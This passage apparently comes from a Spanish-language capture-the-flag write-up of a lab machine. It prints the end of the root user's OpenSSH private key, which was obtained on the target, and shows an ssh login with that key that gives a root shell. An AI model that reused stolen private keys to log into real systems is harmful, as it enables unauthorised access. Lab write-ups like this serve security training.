 ```
lJpUUj34t0PD8eMFnlfV8oomTvruqx0wWp6EmiyT9zjs2vJ3zapp2HWuaSdv7s2aF3gibc
z04JxGYCePRKTBy/kth9VFsAJ3eQezpwAAAMEAwaLVktNNw+sG/Erdgt1i9/vttCwVVhw9
RaWN522KKCFg9W06leSBX7HyWL4a7r21aLhglXkeGEf3bH1V4nOE3f+5mU8S1bhleY5hP9
6urLSMt27NdCStYBvTEzhB86nRJr9ezPmQuExZG7ixTfWrmmGeCXGZt7KIyaT5/VZ1W7Pl
xhDYPO15YxLBhWJ0J3G9v6SN/YH3UYj47i4s0zk6JZMnVGTfCwXOxLgL/w5WJMelDW+l3k
fO8ebYddyVz4w9AAAADnJvb3RAbG9jYWxob3N0AQIDBA==
-----END OPENSSH PRIVATE KEY-----
```

Una vez obtenida la `id_rsa` del usuario `root` nos `conectamos` por `ssh` a la `máquina víctima` como el usuario `root`

```
# ssh -i id_rsa root@10.129.245.245
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-89-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed 26 Jun 2024 09:20:23 AM UTC

  System load:           0.0
  Usage of /:            52.7% of 8.79GB
  Memory usage:          17%
  Swap usage:            0%
  Processes:             222
  Users logged in:       0
  IPv4 address for eth0: 10.129.245.245
  IPv6 address for eth0: dead:beef::250:56ff:fe94:961d


0 updates can be applied immediately.


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Tue Oct 26 16:35:01 2021 from 10.10.14.6
root@secret:~# whoami
root
```
